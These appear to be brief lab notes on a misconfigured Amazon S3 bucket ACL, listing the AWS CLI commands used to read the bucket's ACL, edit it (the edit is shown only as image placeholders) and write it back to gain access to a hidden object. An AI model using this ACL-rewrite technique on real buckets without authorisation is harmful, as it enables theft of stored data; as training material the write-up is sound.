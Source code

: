 Similar to bucket policies, ACLs can be used to restrict/allow access to buckets and objects. A misconfigured bucket/object ACL can allow attackers to steal sensitive data and use the S3 bucket in other attacks.

In this lab, the ACLs allow reading the object but do not allow listing objects. There exists a misconfiguration in bucket ACL which can be leveraged to modify the ACL and identify the object.

==================================================================

List s3 buckets --> `aws s3api list-buckets`
List bucket objects --> `aws s3api list-objects --bucket s3-secret-400621074996`
Access denied due to insufficient permissions

Check bucket acl --> `aws s3api get-bucket-acl --bucket s3-secret-400621074996 > acl.json`

Modify acl.json 
1.- ![[Pasted image 20210826193407.png]]
2.- ![[Pasted image 20210826193512.png]]

Update ACL -->  `aws s3api put-bucket-acl --bucket s3-secret-400621074996 --access-control-policy file://acl.json`
ACL updated